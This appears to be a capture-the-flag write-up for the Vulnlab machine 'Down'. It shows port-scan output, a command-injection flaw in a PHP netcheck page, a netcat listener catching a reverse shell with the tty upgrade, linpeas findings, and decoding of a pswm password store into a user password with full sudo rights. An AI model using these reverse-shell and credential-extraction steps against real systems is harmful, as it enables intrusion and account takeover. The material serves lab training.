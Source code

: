 ```yaml
---
title: Vulnlab - Down
date: 2025-01-13 02:00:00 +/-TTTT
categories: [VulnLab]
tags: [pswm]     # TAG names should always be lowercase
---
```


![img-description](/assets/images/down_slide.png)

## Enum
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9eTcP2DDxJHJ2uCdOmMRIPaoOhvMFXL33f1pZTIe0VTdeHRNYlpm2a2PumsO5t88M7QF3L3d6n1eRHTTAskGw=
    |   256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
    |ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJwLt0rmihlvq9pk6BmFhjTycNR54yApKIrnwI8xzYx/
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Is it down or just me?
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Website
![img-description](/assets/images/1.png)

for understand it clearly i will try to dump index.php and analyze source code.

![img-description](/assets/images/2 (1).png)

![img-description](/assets/images/3.png)

### analyze code

![img-description](/assets/images/2025_01_12_0me_Kleki.png)

PHP code snippet accepts ip and port parameters via a POST request when expertmode=tcp is set in the GET parameters. It validates the ip and port inputs before using them in a shell command to perform a TCP connection check using nc (netcat). However, there are several issues that can lead to security vulnerabilities and functionality concerns
## user
![img-description](/assets/images/5.png)

    ➜  down nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.92.73] 49890
    ls
    index.php
    logo.png
    style.css
    user_aeT1xa.txt
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@down:/var/www/html$ export TERM=xterm
    export TERM=xterm
    www-data@down:/var/www/html$ ^Z
    [1]  + 150945 suspended  nc -nvlp 443
    ➜  down stty raw -echo;fg

    [1]  + 150945 continued  nc -nvlp 443

    www-data@down:/var/www/html$

### linpeas

    ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)

    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files

    [SNIP]
    /var/crash/_usr_bin_pswm.33.crash

    /var/www/html/user_aeT1xa.txt

    [SNIP]

thasts look like interesting

    www-data@down:/tmp$ cat /var/crash/_usr_bin_pswm.33.crash
    ProblemType: Crash
    Date: Fri Sep  6 15:01:16 2024
    ExecutablePath: /usr/bin/pswm
    ExecutableTimestamp: 1725633898
    InterpreterPath: /usr/bin/python3.10
    ProcCmdline: python3 /usr/bin/pswm

    PermissionError: [Errno 13] Permission denied: '/var/www/.local'

https://github.com/repo4Chu/pswm-decoder

we already know location before so just dump it

    www-data@down:/home/aleks/.local/share/pswm$ ls
    pswm

### pswm

    (myenv) ➜  down python3 pswm-decoder.py
    Password: flower
    Decoded text:
    pswm    aleks   flower
    aleks@down      aleks   1uY3w22u<redacted>

## root

    aleks@down:~$ sudo -l
    Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User aleks may run the following commands on down:
    (ALL : ALL) ALL

